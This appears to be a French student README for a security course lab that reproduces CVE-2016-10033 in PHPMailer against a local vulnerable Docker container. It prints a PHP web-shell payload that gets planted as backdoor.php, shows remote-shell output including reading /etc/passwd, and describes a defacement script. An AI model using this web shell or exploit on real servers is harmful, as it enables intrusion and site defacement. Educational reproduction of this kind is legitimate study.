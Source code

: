 # Ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une application web contenant un formulaire d'envoie de mails avec la librairie PHPMailer(voir index.php) sur un container.
Si jamais vous ne disposez pas de docker sur votre machine (le cas des machines de l'école), [Install Docker on Linux](https://runnable.com/docker/install-docker-on-linux).
```
$ docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033 &
```
Lorsque l'image soit lancé sur le conteneur docker, visiter localhost:8080

![](index.png)

Étape 2: Lancement du script "exploit.sh", ce dernier injecte le malicious code ``` <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>``` dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuté sur un container docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php" en exploitant La faille de PHPMailer qui ne vérifier pas les données envoyées par l'utilisateur à travers le formulaire avant l'exécution, et par conséquent il va nous donner la possibilité d'éxécuter des commandes à distance à travers ce script injecté (Remot shell).
```
$ bash exploit.sh localhost:8080
```
output: (ls, ls vulnerable, pwd, cat /etc/passwd sont exécuté sur le seveur distant)
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```

Étape3: C'est intéressant, mais pour tester quelque chose de plus concrète, lancant le script "second_use_case.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" par une page noire contant le mot "defaced".
```
$ bash concret_example.sh localhost:8080
```
output 
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Términé avec succès ...
```

résultat

![](ssi.png)


